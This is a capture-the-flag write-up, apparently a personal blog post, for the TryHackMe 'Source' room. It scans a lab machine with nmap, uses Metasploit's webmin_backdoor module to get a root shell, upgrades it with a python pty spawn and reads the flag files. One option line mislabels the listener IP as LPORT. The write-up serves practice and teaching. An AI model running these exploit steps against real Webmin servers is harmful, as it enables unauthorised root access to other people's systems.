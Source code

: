```yaml
---
title: Source writeup
published: true
---
```


# ***TryHackMe***- Source : Exploit a recent vulnerability and hack Webmin, a web-based system configuration tool.

Link to THM Room : [source](https://tryhackme.com/room/source)

## About the room :   

This is pretty easy room created by [DarkStar7471](https://tryhackme.com/p/DarkStar7471)<br>
Since, this room is only 5 days old so I decided to root the machine as quickly as possible, hence, usig Metasploit.<br>
However if you are not sure about using Metasploit, I suggest learning and completing the room [Metasploit](https://tryhackme.com/room/rpmetasploit).<br>
Well without any further ado **let's break in**.

### Methodology :

- **Port Scanning : nmap**
- **Exploit and privilege escialtion : metasploit**

**Hop into your terminal**

+ ***nmap to enumerate the ports running on the machine***

>> **nmap -sC -sV -Pn -oN source 10.10.x.x**

<img src="/images/nmap.jpg">

Right we have ssh running on 22 and Webmin httpd on 10000<br>
Let's hop into browser to check what's in the web server.

***Note the website is running on SSL(Secure Socket Layer), therefore, the link would be https://10.10.x.x:10000.***

<img src="/images/weblogin.JPG">

And here's a login page<br>
We could definately try bute-forcing with **Hydra** or use **sqlmap** to check the database.<br>
But all these require a little more enumeration to follow, so let's just hope into metasploit for convenience.

+ ***metasploit***

**Back into terminal**   

Type **msfconsole** to fire up metasploit framework.

Once it starts use the **search** command to search for exploits related to **webmin**

>> search webmin

<img src="/images/search.JPG">

Cool there's exploits for webmin we can use.<br>
Exploits for Remote Command Execution available<br>
However, here's an exploit available as webmin_backdoor which will do our task to create a **backdoor** into admin's machine.<br>
If we can get root privilege straight through the backdoor, why not use it ???<br>

We can simply set the payload with **use exploit_number** or **use full_path** command.

>> use 2

<img src="/images/use2.JPG">

**show options** to veiw the options available for payload.<br>
Simply set RHOSTS - the target machine, RPORT - 10000(here its set by default), LHOST - the listening ip address(our tun0 ip provided by openvpn)<br>
Make sure to set SSL - true(because the server is using SSL).

>> set RHOSTS 10.10.x.x
>> set LPORT your_vpn_ip
>> set SSL true

With all the parameters set we are good to go and run the payload. Type **run** or **exploit**

>> run

<img src="/images/runexp.JPG">

In no time we get out **session**<br>
If you check with **whoami** , we're in as **root**<br>
Sweet eh ???

Now here we are **root**, but since this shell is unstable at this moment, we can use **python** to get a stable shell.<br>
Simply type the following commands to get a stable shell :

>> shell

>> python -c "import pty;pty.spawn('/bin/bash')"

<img src="/images/import.JPG">

Here we are simply using **python** to spawn a shell i.e /bin/bash.<br>
Type the following commands to make use of /bashrc (can't explain everything here, just know you can't use *clear* command, etc.. yet so)

>> export TERM=xterm

Once this is done we are able to clear screen or use our arrow keys to neviagte to previously used commands.<br>
Well, let's get our **user.txt** and **root.txt** asap...

>> cd /home
>> ls
>> cd dark
>> ls
>> cat user.txt

<img src="/images/user.JPG"> 

Got our first flag i.e user.txt

>> cd /root
>> ls
>> cat root.txt

or simply

>> cat /root/root.txt

<img src="/images/root.JPG"> 

And there we are, **root flag** staring at us. :D

***Finally completed the room, congrats !!!***

***This was fairly an easy machine, Kudos! to DarkStar7471 for this amazing room***<br>
**Thank you for reading, hope you enjoyed and learned something !!! ;)***

***PS: If you found a sotphisticated way to root this machine other than using Metasploit do add a writeup or DM me on [instagram](https://www.instagram.com) and share your exerience so that I may learn too !***



